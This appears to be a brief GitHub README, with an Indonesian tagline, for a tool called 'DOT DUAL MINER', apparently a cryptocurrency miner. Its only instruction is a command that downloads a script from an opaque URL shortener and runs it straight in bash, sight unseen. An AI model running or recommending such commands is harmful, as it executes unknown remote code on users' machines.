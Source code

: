 # MANUSIA GELAP LUPA ARAH #
BUKAN MANUSIA BAIK, BUKAN JUGA MANUSIA JAHAT
===========================================================================
# DOT DUAL MINER
```
bash -c "$(wget -qO- s.id/dotrun)"
```
===========================================================================
